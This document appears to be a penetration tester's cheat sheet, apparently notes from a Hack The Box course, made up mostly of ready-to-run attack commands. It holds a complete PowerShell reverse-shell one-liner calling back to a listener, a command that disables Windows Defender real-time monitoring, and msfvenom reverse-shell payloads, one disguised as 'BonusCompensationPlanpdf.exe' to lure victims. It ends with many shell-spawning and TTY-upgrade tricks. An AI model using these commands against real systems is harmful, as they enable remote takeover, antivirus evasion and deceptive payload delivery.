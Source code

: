 
### <span style="color:lightgreen">Windows </span>

-----
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('172.16.1.5',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Disable AV
```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

-----
### <span style="color:lightgreen">Stageless payload </span>

```powershell
Sauuron@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf # Linux

Sauuron@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe # Windows
```

### <span style="color:yellow">Handy resrouces</span>

| Resource                        | Description                                                                                                                                                                                                                                                                                                       |
| ------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| MSFVenom & Metasploit-Framework | [Source](https://github.com/rapid7/metasploit-framework) MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife. |
| Payloads All The Things         | [Source](https://github.com/swisskyrepo/PayloadsAllTheThings) Here, you can find many different resources and cheat sheets for payload generation and general methodology.                                                                                                                                        |
| Mythic C2 Framework             | [Source](https://github.com/its-a-feature/Mythic) The Mythic C2 framework is an alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.                                                                                                                    |
| Nishang                         | [Source](https://github.com/samratashok/nishang) Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.                                                                                                                  |
| Darkarmour                      | [Source](https://github.com/bats3c/darkarmour) Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts.                                                                                                                                                                    |

### <span style="color:lightgreen"> Spawning Interactive shells </span>
```sh
/bin/sh -i
```

- Perl
```perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

-  Ruby
```ruby
ruby: exec "/bin/sh"
```

- lua
```lua
lua: os.execute('/bin/sh')
```

- awk
```shell
awk 'BEGIN {system("/bin/sh")}'
```

- Using Find For a Shell
```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
find . -exec /bin/sh \; -quit
```

- vim
```shell
vim -c ':!/bin/sh'
```

- vim escape
```shell
vim
:set shell=/bin/sh
:shell
```



### Spanw TTY


```shell
-   `python -c 'import pty; pty.spawn("/bin/sh")'`
    
-   `echo os.system('/bin/bash')`

-   `/bin/sh -i`

-   `script -qc /bin/bash /dev/null`

-   `perl -e 'exec "/bin/sh";'`

-   perl: `exec "/bin/sh";`

-   ruby: `exec "/bin/sh"`

-   lua: `os.execute('/bin/sh')`
    
-   IRB: `exec "/bin/sh"`
    
-   vi: `:!bash`
    
-   vi: `:set shell=/bin/bash:shell`
    
-   nmap: `!sh`
```
